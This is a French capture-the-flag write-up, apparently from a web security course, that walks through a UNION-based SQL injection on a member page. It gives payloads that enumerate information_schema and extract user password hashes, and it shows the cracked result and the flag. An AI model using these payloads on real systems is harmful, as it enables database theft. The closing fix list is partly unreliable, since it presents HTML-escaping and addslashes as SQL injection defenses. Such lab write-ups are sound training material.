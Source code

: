 ## La faille
`ip`/index.php?page=member

## L'explication
Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:
```
table_schema: Member_Sql_Injection
table_name: users
```
`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
```
table_name: users
column_name: user_id
column_name: first_name
column_name: last_name
column_name: town
column_name: country
column_name: planet
column_name: Commentaire
column_name: countersign  
```
Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Sql_Injection.users`
Nous obtenons pour l'utilisateur GetThe Flag :
```
user_id : 5
first_name : Flag
last_name : GetThe
town : 42
country : 42
planet : 42
Commentaire : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
countersign : 5ff9d0165b4f92b14994e5c685cdce28
```
En suivant les recommandations du commentaire, nous obtenons:  
*5ff9d0165b4f92b14994e5c685cdce28* = *FortyTwo* (md5)
Cryptons ensuite fortytwo (*lower all the char*) en sha256, pour obtenir le flag : *10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5*

## Le fix
Les methodes suivantes permettent efficacement de se proteger contre les injections lorsque des champs sont remplis par l'user :
- `mysql_real_escape_string` (concernant les db),
- `htmlentities()`,
- `htmlspecialchars()`,
- `strip_tags()`,
- `addslashes()`,
- et globalement en utilisant la PDO
Il est aussi de bon usage lorsqu'une requete est faite de vérifier deux clés, lorsque cela est possible, afin d'autoriser l'accès au contenu (ex : le champs demandé est le nom d'utilisateur, mais en backend le code vérifie aussi l'identifiant de l'utilisateur loggé).
Vérifier que la string envoyée ne contient pas d'espaces si cela n'est pas nécessaire
Parser le retour de la requête plutot qu'en envoyer l'intégralité du contenu
